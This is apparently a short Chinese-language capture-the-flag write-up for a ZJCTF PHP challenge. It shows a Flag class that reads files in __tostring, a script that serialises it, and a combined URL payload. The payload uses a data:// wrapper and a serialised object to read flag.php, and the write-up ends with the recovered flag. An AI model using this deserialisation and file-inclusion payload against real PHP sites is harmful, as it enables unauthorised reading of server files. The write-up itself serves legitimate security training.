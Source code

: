 解码

```php
<?php  

class Flag{  //flag.php  提示了
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

```
<?php
class Flag{
    public $file='flag.php';
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
$password=new Flag();
echo serialize($password);
?>
```

运行结果：

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

联合起来payload：

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

flag

```
<?php

if(2===3){  
	return ("flag{6633ed89-7eda-4de4-92c5-88bd8fdbe0c7}");
}
```

